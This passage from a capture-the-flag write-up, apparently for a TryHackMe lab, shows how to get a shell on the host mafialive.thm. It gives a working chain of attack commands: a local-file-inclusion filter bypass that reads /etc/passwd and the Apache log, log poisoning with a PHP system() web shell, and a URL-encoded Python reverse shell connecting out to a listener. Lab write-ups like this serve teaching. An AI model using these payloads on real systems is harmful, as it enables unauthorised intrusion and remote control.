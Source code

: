 

5. Get a shell and find the user flag

Now, since we got ourselves an LFI(Local File Inclusion), let’s try to read the /etc/passwd file. I want you to note that there's a filter that filters out ```../../../``` so it shouldn't contain that, so to bypass that we'll be using 2 dots and a dot, something like this ```.././.././```

url:```http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././../etc/passwd```


![image](https://user-images.githubusercontent.com/67879936/222675948-c66c14b6-feee-43c3-8d18-bfef3fcba19a.png)

seeing how we can view the /etc/passwd file, lets go ahead to check if we can access apache log

url: ```http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././../var/log/apache2/access.log```

![image](https://user-images.githubusercontent.com/67879936/222676031-b15c350a-e5bb-4204-b693-701c0425a2a4.png)


Now, since we can access the apache log, lets try to poison the log.

To do this I will use netcat and curl

To poison the log

command: ```nc mafialive.thm 80```

After doing this I will inject a php payload

payload:```GET <?php system($_GET[‘cmd’]);?> HTTP/1.1```

![image](https://user-images.githubusercontent.com/67879936/222676327-8bcd4032-3fb8-4dce-bbf0-bbacdda46d72.png)

Now, you will get a response saying “Bad Request”

Lets go ahead to check if we were able to poison the log

command: ```curl -s “http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././../var/log/apache2/access.log&cmd=id"```

![image](https://user-images.githubusercontent.com/67879936/222676579-cdb9fa67-a24f-405c-a20f-3d3d760f80b1.png)

Taking a look at the ending of the screenshot above you will see a user “www-data”. Now, this means the log poisoning was successful.

We can now use a python reverse shell, so we can get a reverse shell on our machine (url encode the payload, I did this using cyber chef)

Encoded payload:```python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.18.103.121%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/sh%22)’```

Then we will also have to set up a listener on our machine

```rlwrap nc -lvnp 1234```

Now, all we have left is to add the payload to our url and we wait to get a reverse shell

command:```curl -s “http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././../var/log/apache2/access.log&cmd=python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.18.103.121%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/sh%22)'"```

![image](https://user-images.githubusercontent.com/67879936/222677190-4df8a6bc-4838-4427-ba05-4aaf2260c80e.png)

After running that command, a reverse shell was gotten

![image](https://user-images.githubusercontent.com/67879936/222677290-0d4b28b8-1154-4eef-a922-3d4c27cd88af.png)
```